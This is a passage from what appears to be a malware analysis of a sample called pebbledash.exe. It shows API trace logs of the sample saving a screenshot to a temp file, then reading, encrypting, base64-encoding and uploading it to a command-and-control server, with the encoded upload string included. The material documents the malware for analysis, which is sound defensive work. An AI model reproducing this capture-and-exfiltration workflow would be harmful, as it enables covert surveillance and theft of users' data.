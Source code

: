 ```html
[PAR] int     clines : 0x3fc
[RET] [0x7ff6baf2a2b3] [+0xa2b3] in [pebbledash.exe]
```

* The screenshot is then saved unencrypted to the TMP file :  

```html
[CNT] [601]
[PTP] [0x280] [0x858] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <CreateFileW> in [KERNEL32.DLL] 
[PAR] LPCWSTR lpFileName            : 0x0000006040D1D0A0
[STR]         -> "C:\Users\user\AppData\Local\Temp\PMSEE98.tmp"
[PAR] DWORD   dwDesiredAccess       : 0x40000000 (GENERIC_WRITE)
[PAR] DWORD   dwCreationDisposition : 0x2 (CREATE_ALWAYS)
[RET] [0x7ff6baf2a3f6] [+0xa3f6] in [pebbledash.exe]

[CNT] [603]
[PTP] [0x280] [0x858] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WriteFile> in [KERNEL32.DLL] 
[PAR] HANDLE       hFile                  : 0x1f8
[PAR] LPVOID       lpBuffer               : 0x0000006043D8C040
[PAR] DWORD        nNumberOfBytesToWrite  : 0x156a5
[PAR] LPDWORD      lpNumberOfBytesWritten : 0x0000006040D1CFD0
[PAR] LPOVERLAPPED lpOverlapped           : 0x0
[RET] [0x7ff6baf2a507] [+0xa507] in [pebbledash.exe]

```

* The file is then read, encrypted, base64 encoded and sent to the C2 :  

```html
[CNT] [613]
[PTP] [0x280] [0x858] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <CreateFileW> in [KERNEL32.DLL] 
[PAR] LPCWSTR lpFileName            : 0x0000006040D1C820
[STR]         -> "C:\Users\user\AppData\Local\Temp\PMSEE98.tmp"
[PAR] DWORD   dwDesiredAccess       : 0x80000000 (GENERIC_READ)
[PAR] DWORD   dwCreationDisposition : 0x3 (OPEN_EXISTING)
[RET] [0x7ff6baf2f787] [+0xf787] in [pebbledash.exe]

[CNT] [615]
[PTP] [0x280] [0x858] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <GetFileSize> in [KERNEL32.DLL] 
[PAR] HANDLE hFile : 0x1f8
[RET] [0x7ff6baf2f8d6] [+0xf8d6] in [pebbledash.exe]

[CNT] [618]
[PTP] [0x280] [0x858] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <ReadFile> in [KERNEL32.DLL] 
[PAR] HANDLE hFile                : 0x1f8
[PAR] LPVOID lpBuffer             : 0x0000006040E4A160
[PAR] DWORD  nNumberOfBytesToRead : 0x156a5
[RET] [0x7ff6baf2f9c4] [+0xf9c4] in [pebbledash.exe]

[CNT] [633]
[PTP] [0x280] [0x858] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpWriteData> in [winhttp.dll] 
[PAR] HINTERNET hRequest                 : 0x0000006040DFD9C0
[PAR] LPCVOID   lpBuffer                 : 0x0000006040E917E0
[STR]           -> "sep=sRhqotvThSV&sid=01a7561f&data=KfH4HnlItjUjNYejIRnLcK1AqJfoC0g6BPGl+CO0CE9GZOtx+J9e4hdI3hrrOLK+TKhyStgbkexhmmG1w8ul3o"
[STR]              "4M/tVXPkLvB1VGt0BBLmzAseZfdQuKKjvrC4n34RE5ru18h04gtiwPqgOvJApLDkE9x0zQCdxn2FDq0kjIHRKvl30IlzC76+vcqInhLF1IUTFNZNDXO4aQw3"
[STR]              "B5+/QcVpktH6wVlG10TjrZQKQ/jSP3UjEsUIC+n1DDxCHYf0X7JMsJkq82eXK64sZbkuT2FkwTuKrTquQ+NAOsHB1fqtwDBwPeG0R56Ddw13fpF2gp3Aj5ed"
```